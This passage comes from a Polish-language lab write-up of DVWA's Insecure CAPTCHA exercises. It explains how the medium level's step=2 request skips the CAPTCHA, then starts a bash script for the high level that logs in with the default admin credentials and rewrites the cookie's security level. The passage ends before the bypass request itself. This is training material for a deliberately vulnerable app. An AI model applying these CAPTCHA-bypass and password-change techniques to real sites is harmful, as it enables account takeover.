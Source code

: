 #### Efekt działania skryptu:
![alt text](https://github.com/249064/CBE-BAW-2023/raw/main/res/captcha_medium.gif "Po uruchomieniu skrypt wykonuje od razu żądanie kroku 2 (step=2). Ten krok nie wymaga realizacji wyzwania CAPTCHA, a to właśnie przez niego dokonywana jest zmiana hasła. Jedyne czego wymaga, to ustawionego parametru passed_captcha na true")


#### Czyszczenie pozostałości po wykonaniu skryptu:
```bash
rm ./dvwa.cookie
```


<br/>

<br/>
<br/>

## DVWA Insecure CAPTCHA #3 - High
Na wysokim poziomie trudności musimy mieć na uwadze następujące cechy laboratorium:
* W tym przypadku proces zmiany hasła nie jest już rozdzielony na dwa etapy
* W kodzie strony znajduje się wyjątek/furtka pozostawiona przez dewelopera w formie komentarza. Ta furtka umożliwia pominięcie normalnego procesu weryfikacji CAPTCHA.

#### Dane wejściowe:
| No. | Opis | Typ | Przykładowa wartość |
|------|-------------|------|---------------|
| 1 | DVWA base url | url | 10.10.10.10|
| 2 | docelowe hasło | string | charlie|

#### Skrypt w `bash` 

```bash
#!/bin/bash

# Function to display usage instructions
display_usage() {
  echo "Usage: $0 <base_url> <password>"
  echo "Description: This script attempts to bypass improperly implemented captcha mechanism to change a password"
  echo "Arguments:"
  echo "  <base_url>      Base URL of the target application"
  echo "  <password>      Password you want to set"
}

# Check if the required number of arguments are provided
if [[ $# -ne 2 ]]; then
  display_usage
  exit 1
fi

get_cookie() {
  csrf=$(curl -s -x "http://127.0.0.1:8080" -c dvwa.cookie "$1/login.php?security=high&Login=Login&username=admin&password=password" | awk -F 'value=' '/user_token/ {print $2}' | cut -d "'" -f2)
  sed -i 's/impossible/high/' dvwa.cookie
  curl -s -b dvwa.cookie -d "username=admin&password=password&user_token=${csrf}&Login=Login" "$1/login.php"
}

```